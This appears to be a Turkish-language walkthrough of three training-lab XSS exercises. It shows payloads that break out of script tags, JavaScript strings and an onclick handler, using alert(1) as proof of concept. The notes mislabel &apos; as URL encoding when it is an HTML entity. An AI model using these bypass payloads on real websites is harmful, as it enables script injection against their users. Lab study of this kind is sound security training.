 
### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
Lab üzerine girdiğimiz zaman gördüğümüz şeyler bir search bar olmaktadır. 
klasik bir "<script> </script>" payloadı giriyoruz ve sonuçları inceleyelim 

incelediğimiz zaman  "</script>" girdimizin js kodunda bir değişken içerisinde yazıldığı için sonrasındaki `js` kodları `script` taginin dışında kalmakta bu sayede kendi istediğimiz script tagımızı koyarak devamını istediğimiz gibi manipüle edebiliriz.


```html
<html>
<script>
a= '</script> <script>alert(1)</script> '
</script>
</html>
```


### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

search bar araştırıldığında `\`ve `//`  encode edilmediği ve js koduna direk olarak iliiştirildiği görülebiliyor. 

```js
\'-alert(1)//
```
şeklinde girildiği zaman

```js
var searchTerms = '\\'-alert(1)//';
```
şeklinde iliştirildiği görülüyor bu şekilde searchterms değişkeninin `'\\'` değerini elde ettiği görülebiliyor. 
//'dan sonrası comment satırı olacaktır.
diğer yöntem:
```
\';alert(1);//
```

"-alert(1)"  kullanılarak ";" kullanmadan çalıştırma yapılabilir.



### Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Burada comment atarak bir XSS oluşturmamız isteniyor.

website kısmına bakıldığında `onclick` event içerisinde bir fonksiyon yazılarak kullanıcının girdisi bir değişken içerisinde belirtilmiş.

```html
<a id="author" href="[http://foo?](http://foo/?)" onclick="var tracker={track(){}};tracker.track('http://foo?');">xxxxxxxx</a>
```

buradaki onclick fonksiyonuna yazılan değerin manipüle edilmesi gerek `'` `"` gibi değerler encode edilerek önlenmiş.

ancak `'` işaretinin URL encode hali olan `&apos` kullanılarak kaçınılabilir.
```html
<a id="author" href="[http://foo?&apos;-alert(1)-&apos;](http://foo/?%27-alert\(1\)-%27)" onclick="var tracker={track(){}};tracker.track('http://foo?&apos;-alert(1)-&apos;');">asd</a>
```
